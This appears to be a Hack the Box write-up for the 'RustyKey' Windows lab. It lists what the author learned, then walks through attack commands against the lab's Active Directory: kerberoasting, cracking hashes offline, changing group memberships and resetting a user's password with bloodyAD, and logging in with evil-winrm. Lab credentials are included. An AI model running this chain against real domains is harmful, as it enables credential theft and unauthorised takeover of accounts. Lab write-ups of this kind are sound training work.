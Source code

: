 # RustyKey

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Use ldapsearch for AD enumeration
- Learned that Netexec by default filters out machine accounts when kerberoasting because machine accounts normally have very strong passwords set by default. However, this is not always the case like here, and is kerberoastable/crackable.
- Found what security implementations the Protected Users group has by default (Stronger AES encryption on TGTs, disabling NTLM hash and caching credentials, TGTs expire in 4 hours, etc.)
- Learned that having AddMember privileges can also mean having RemoveMember rights. Also learned that one can remove not only users from groups, but groups from groups using bloodyAD
- Became familiar with using tools that don't rely on SMB and use Kerberos authentication


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/483ca663-e7d2-4944-b26e-5564e6d92d2d)

2. Run bloodhound using given credentials `rr.parker:8#t5HE8L!W3A`

![image](https://github.com/user-attachments/assets/3874dc11-7171-4dd9-9f61-b3472efb00f8)

3. We get an error with LDAP saying it can't find dc.rustykey.htb so add that to `/etc/hosts` file and try again.

`sudo bloodhound-python -d rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -ns 10.129.63.201 -c all`

4. With bloodhound, we find an initial path to user via nn.marcos

![image](https://github.com/user-attachments/assets/22162d58-fed1-421d-a1e1-36a639eef6ba)

5. However, with rr.parker, there is no way to nn.marcos. After much enumeration and dead ends, we try kerberoasting to gain initial access. But we get no results for it

`nxc ldap dc.rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -k --kerberoasting kerberoast.txt`

![image](https://github.com/user-attachments/assets/f06dbd5b-a301-42a9-9034-1a996a147349)

6. Running it again with the debug flag this time, we see that by default, nxc searches only for computers. We change the filter to look for users instead and try again.

![image](https://github.com/user-attachments/assets/1bca6dc5-6fa5-4fc6-aa8b-afbfba610c98)

7. Kerberoasting successful! We got a hash

![image](https://github.com/user-attachments/assets/e4d8528d-03cd-468e-bbde-3ae0a0f6c1df)

8. Crack offline with hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

9. Hash doesn't crack, so we try kerberoasting with a different method. First, enumerate all usernames with ldapsearch

`ldapsearch -x -H ldap://rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b "DC=rustykey,DC=htb" "(objectCategory=*)" sAMAccountName | grep '^sAMAccountName:' | cut -d' ' -f2 > accountList`

![image](https://github.com/user-attachments/assets/2f6787e2-1765-4f50-b0d9-c30819116bb2)

10. Then try kerberoasting using impacket's GetUserSPNs.py script using the `-usersfile` flag

`GetUserSPNs.py -usersfile accountList -request -k -dc-ip 10.129.244.92 -dc-host dc.rustykey.htb rustykey.htb/rr.parker:"8#t5HE8L\!W3A" -outputfile kerberoast.txt`

![image](https://github.com/user-attachments/assets/dd7e5e13-5d06-4055-b210-bd046e3d64da)

11. Kerberoasting is a success and we get back 17 hashes. Try cracking them offline once more using hashcat

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/f791b6a7-ae86-412b-a5ed-ea7dbfe78616)

12. Got the password for machine account IT-Computer3$. Now, check bloodhound and see if there's a path to the machine with this account

![image](https://github.com/user-attachments/assets/61ed86ed-c04a-4ecc-8e1d-e017673e08d4)

13. Yes, there is! So our game plan now will be to add the IT-Computer3$ account to the Helpdesk group, which can change BB.Morgan's password. This will give us access to the DC.Rustykey.htb machine!

14. Add IT-Computer3$ to Helpdesk group via bloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' add groupMember Helpdesk 'IT-Computer3$'`

![image](https://github.com/user-attachments/assets/bc7eb631-1379-4863-89ff-9d9dc105ffdf)

15. Tried changing bb.morgan's password and log in but can't because bb.morgan is part of the Protected Objects group. After looking at Bloodhound again, Helpdesk group has AddMember rights on Protected Objects so remove IT group from the protected group first.

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' remove groupMember 'Protected Objects' IT`

![image](https://github.com/user-attachments/assets/75bb0296-adce-4b05-bcb0-ee58d7393b6f)

16. Now change bb.morgan's password using IT-Computer3$'s creds

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' set password bb.morgan Password123`

17. Changed! Now we can request a Ticket Granting Ticket with bb.morgan's credentials using impacket's getTGT.py script

`getTGT.py -dc-ip dc.rustykey.htb rustykey.htb/bb.morgan:Password123`

18. Finally, add the path to the ticket to the KRB5CCNAME environment variable and log into the machine using evil-winrm with kerberos authentication

`evil-winrm -i dc.rustykey.htb -r rustykey.htb`

19. Got the user flag!!!

![image](https://github.com/user-attachments/assets/0ed173f0-11b7-4263-8835-ce7e7280b36c)


